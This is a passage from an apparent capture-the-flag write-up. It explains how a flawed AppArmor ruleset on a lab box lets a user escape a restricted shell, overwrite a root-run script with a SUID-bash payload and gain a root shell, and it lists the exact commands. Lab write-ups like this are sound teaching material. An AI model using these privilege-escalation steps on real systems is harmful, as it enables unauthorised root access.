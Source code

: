 ```bash
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```


It can be seen that read and write permissions are disabled on many directories for users using the ash shell, including in the /opt directory where run_container.sh is found. Note: in the above ruleset, write access is unsuccessfully denied in /var/tmp as the rule should instead be "deny /var/tmp/** w". 


Furthermore, it can be seen that there are no ruleset specified for bash shells. Hence, if the attacker could switch to a bash shell, they would be able to edit run_container.sh and thus escalate their previleges.


This can be done through the following steps:


```bash
think@publisher:/var/tmp$ cp /bin/bash .
think@publisher:/var/tmp$ ./bash
think@publisher:/var/tmp$ vim /opt/run_container.sh
think@publisher:/var/tmp$ cat /opt/run_container.sh
cp /bin/bash /var/tmp
chmod 4755 bash

think@publisher:/var/tmp$ rm ./bash
think@publisher:/var/tmp$ /usr/sbin/run_container
think@publisher:/var/tmp$ ./bash -p
bash-5.0# whoami
root
```


In the above steps, after switching to a bash shell, a malicious script that copies /bin/bash and adds a SUID bit to the copied /bin/bash binary, was used to overwrite /opt/run_container.sh. By executing /usr/sbin/run_container, the new contents of /opt/run_container.sh were executed, leading to /bin/bash being copied and a SUID bit added to that binary while the user had root previleges. Thus, upon executing that copied bash binary, the attack successfully escalated previleges to the root user.


Overall, I found the steps to gain a foothold on the machine and become the "think" user to be straightforward as it involved using a public exploit against SPIP and being able to read the .ssh directory in "think". However, I found the previlege escalation to be much more complicated as it required me to dedicate time to research how App Armor works and how its ruleset within this box could be bypassed.